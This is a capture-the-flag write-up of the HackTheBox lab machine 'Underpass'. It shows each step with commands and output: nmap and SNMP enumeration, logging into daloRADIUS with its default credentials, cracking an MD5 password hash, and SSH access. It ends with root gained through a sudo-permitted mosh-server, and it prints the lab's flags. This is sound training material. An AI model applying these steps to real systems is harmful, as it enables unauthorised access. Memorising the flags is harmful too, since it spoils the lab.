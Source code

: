 ```yaml
---
title: "Underpass"
date: 2025-05-05
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Underpass

![](../assets/Pasted%20image%2020250505131450.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.48 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 13:15 CEST
Nmap scan report for 10.10.11.48
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   40.70 ms 10.10.14.1
2   40.98 ms 10.10.11.48

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.47 seconds
```

```shell
$ sudo nmap -sU --top-ports 50 -Pn 10.10.11.48 --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-05 13:15 CEST
Nmap scan report for 10.10.11.48
Host is up (0.041s latency).
Not shown: 30 open|filtered udp ports (no-response), 19 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 15.97 seconds
```

Enumerating `snmp` we find the instance name running on the server

```shell
$ snmpwalk -c public -v1 -t 10 10.10.11.48
iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (31611) 0:05:16.11
iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (2) 0:00:00.02
```

Using `feroxbuster` to discover paths inside `/daloradius`

```shell
$ feroxbuster -u http://10.10.11.48/daloradius -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 60 -x txt -x html -x php -x conf -C 302,301,403,404,400 -k
                                                                                                       
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.48/daloradius
 🚀  Threads               │ 60
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 💢  Status Code Filters   │ [302, 301, 403, 404, 400]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, html, php, conf]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4

[>-------------------] - 2m     26395/6369090 202/s   http://10.10.11.48/daloradius/app/users/ 
[>-------------------] - 43s     3625/6369090 85/s    http://10.10.11.48/daloradius/app/operators/
```

Going to `/users` shows the user login and `/operators` the admin login panel

![](../assets/Pasted%20image%2020250505154754.png)

The official repo ([https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS)) install instructions indicate the default password: `administrator:radius` so

![](../assets/Pasted%20image%2020250505154857.png)

Inside, in the search bar at the top right, click to search all users

![](../assets/Pasted%20image%2020250505154955.png)

Using `hashcat` crack the MD5 password

```shell
$ hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force     
hashcat (v6.2.6) starting

412dd4759978acfcc81deab01b382403:underwaterfriends
```

So `svcmosh:underwaterfriends`

Access the machine via `SSH` with these new credentials

```shell
$ ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$ whoami
svcMosh
```

## Privilege Escalation

Get the flag

```shell
svcMosh@underpass:~$ cat user.txt
ebb6347ca59834b16b35e1c7b24c9447
```

This user can execute `mosh-server` as sudo, so create a server and connect to it with `mosh-client`

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

```shell
svcMosh@underpass:~$ sudo /usr/bin/mosh-server 

MOSH CONNECT 60002 fNKglQ/C1dr9J3+wOb7TTQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2641]

svcMosh@underpass:~$ MOSH_KEY=fNKglQ/C1dr9J3+wOb7TTQ mosh-client 127.0.0.1 60002
```

```shell
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

...
Mosh: You have a detached Mosh session on this server (mosh [2631]).
...

root@underpass:~# whoami
root
```

## Post Exploitation

Get the flag

```shell
root@underpass:~# cd /root
root@underpass:~# cat root.txt
a883be264024dedc4faa1ff74f9c1c07
```
